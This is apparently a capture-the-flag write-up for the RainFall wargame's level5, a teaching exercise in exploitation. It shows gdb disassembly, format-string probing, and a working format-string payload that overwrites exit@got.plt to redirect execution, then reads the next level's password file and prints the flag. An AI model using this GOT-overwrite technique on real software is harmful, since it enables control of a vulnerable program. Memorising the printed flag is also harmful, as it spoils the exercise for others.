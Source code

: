 ret2plt

GOT PLT exploit -> https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got


```
(gdb) set height 30
(gdb) i func
0x080484a4  o
0x080484c2  n
0x08048504  main
```

n func calls prinft then exit
```
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```


```
level5@RainFall:~$ python -c 'print "AAAA" + " |%p| " * 20 ' | ./level5
AAAA |0x200|  |0xb7fd1ac0|  |0xb7ff37d0|  |0x41414141|

level5@RainFall:~$ python -c 'print "AAAA" + " |%4$x| " ' | ./level5
AAAA |41414141|
```
```
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
 ```
 "[We’re in the PLT, and we see that we’re performing a jmp, but this is not a typical jmp. This is what a jmp to a function pointer would look like. The processor will dereference the pointer, then jump to resulting address.](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)"

"Let’s check the dereference and follow the jmp. Note that the pointer is in the .got.plt"

"The PLT resolves actual locations in libc of functions you use and stores them in the GOT"

```
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```



call o from n <===> ovveride exit (0x8049838) of by addr of o (0x080484a4)

(gdb) p 0x080484a4 - 4 = 134513824


 (python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n" '; cat) | ./level5
 
 ```
 level5@RainFall:~$ (python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d" + "%4$n"'; cat -) | ./level5 > /dev/null
cat /home/user/level6/.pass 1>&2
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
 ```
 









